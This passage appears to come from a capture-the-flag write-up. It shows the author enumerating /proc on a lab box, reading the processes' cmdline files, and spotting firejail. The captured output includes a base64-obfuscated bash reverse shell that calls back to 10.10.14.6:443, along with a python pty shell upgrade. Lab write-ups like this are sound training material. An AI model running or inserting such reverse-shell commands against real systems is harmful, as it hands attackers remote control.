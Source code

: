 ```

atlas@sandworm:/proc$ ls
1      52439       diskstats      kcore        mounts        swaps
20     52440       dma            keys         mpt           sys
20089  52916       driver         key-users    mtrr          sysrq-trigger
20091  acpi        dynamic_debug  kmsg         net           sysvipc
52380  bootconfig  execdomains    kpagecgroup  pagetypeinfo  thread-self
52383  buddyinfo   fb             kpagecount   partitions    timer_list
52384  bus         filesystems    kpageflags   pressure      tty
52405  cgroups     fs             loadavg      schedstat     uptime
52406  cmdline     interrupts     locks        scsi          version
52412  consoles    iomem          mdstat       self          version_signature
52429  cpuinfo     ioports        meminfo      slabinfo      vmallocinfo
52432  crypto      irq            misc         softirqs      vmstat
52433  devices     kallsyms       modules      stat          zoneinfo

```

Each numbered directory represents a process and will have a `cmdline` file with the command line called to start the process. These are missing newlines at the end, so it’s a bit messy, but a quick way to take a look is just to `cat` them all together (I’ll make this more readable in a minute):

```

atlas@sandworm:/proc$ cat */cmdline
/usr/local/bin/firejail--profile=webappflaskrungpg-agent--homedir/home/atlas/.gnupg--use-standard-socket--daemonscdaemon--multi-server/usr/bin/python3/usr/local/sbin/flaskrun/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bashbashbash-ipython3-cimport pty; pty.spawn("/bin/bash")/bin/bashpython3/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bashbashbash-ipython3-cimport pty;pty.spawn("/bin/bash")/bin/bashcat1/cmdline20089/cmdline20091/cmdline20/cmdline52380/cmdline52383/cmdline52384/cmdline52405/cmdline52406/cmdline52412/cmdline52429/cmdline52432/cmdline52433/cmdline52439/cmdline52440/cmdlineself/cmdlinethread-self/cmdlinecat1/cmdline20089/cmdline20091/cmdline20/cmdline52380/cmdline52383/cmdline52384/cmdline52405/cmdline52406/cmdline52412/cmdline52429/cmdline52432/cmdline52433/cmdline52439/cmdline52440/cmdlineself/cmdlinethread-self/cmdline

```

At least for the ones I can read, `firejail` jumps out.

For a better look at the processes, I’ll write a quick `bash` oneliner loop, which I’ll show here with added whitespace:

```

ls | while read d; do 
  cat "$d/cmdline" 2>/dev/null 
  && echo " [$d]"; 
done

```

It’s going to read all the items in the current directory (`/proc`), and then for each try to `cat` a `cmdline` file from that directory (`cat "$d/cmdline"`). If that fails, the output / error messages go to `/dev/null` (`2>/dev/null`). `&&` means keep going only if the previous command succeeded, and in that case, it will print the pid of the file at the end. The result looks like:
